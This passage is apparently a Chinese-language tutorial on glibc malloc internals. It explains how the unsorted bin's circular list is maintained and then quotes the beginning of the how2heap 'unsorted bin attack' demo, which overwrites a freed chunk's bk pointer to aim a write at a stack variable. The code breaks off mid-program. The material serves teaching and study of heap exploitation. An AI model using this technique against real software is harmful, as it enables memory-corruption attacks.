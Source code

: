 注意到C 库宏 **offsetof(type, member-designator)** 生成一个类型为 **size_t** 的整型常量，它是一个结构成员相对于结构开头的字节偏移量。

结合free_chunk的图示，很显然`- offsetof (struct malloc_chunk, fd)`能产生一个假想的free_chunk。

将unsorted chunks 链表看作队列（**队头**出列**队尾**入列），则此"chunk"的fd指向队尾，bk指向队头。同时，队尾的bk与队头的fd指向此"chunk"。一个循环链表就这么构成了。

同时，这也解释了为什么bin_at返回的指针类型，还有bins的类型都为malloc_chunk*。

## bck

继续查看一开始的代码。

bck为队列尾的bk指向的chunk，即队尾的上一个chunk：

```c
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
         {
           bck = victim->bk;
           ......
```

于是代码做的事很明了了，移除队尾元素并维护队列（双向循环链表）结构。

```c
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

到此为止，移除unsorted list一个元素的机制已经基本上清楚了。

## 攻击

此时再回头看how2heap中unsorted bin attack 的代码，就一目了然了：

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(400);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);
```